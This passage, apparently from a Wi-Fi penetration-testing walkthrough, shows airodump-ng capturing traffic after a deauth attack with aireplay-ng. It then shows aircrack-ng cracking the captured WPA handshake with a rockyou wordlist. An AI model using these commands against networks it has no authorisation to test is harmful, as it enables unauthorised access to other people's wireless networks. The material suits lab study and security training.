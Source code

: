     `airodump-ng wlan0mon -w ~/wifi/scanc6 -c 6 --wps`

![image.png](image%2025.png)

as seen above we have performed a deauth attack(an EAPOL traffic indicates that we have captured a successful handshake from the wifi network) using aireplay-ng and we wait a little longer for the airodump-ng to capture some traffic that we can use  [aircrack-ng](https://www.aircrack-ng.org/doku.php) to try and get the password using the wordlist top100000.txt.

`aircrack-ng  -w rockyou-top100000.txt -- '-01.cap'` 

![image.png](image%2026.png)
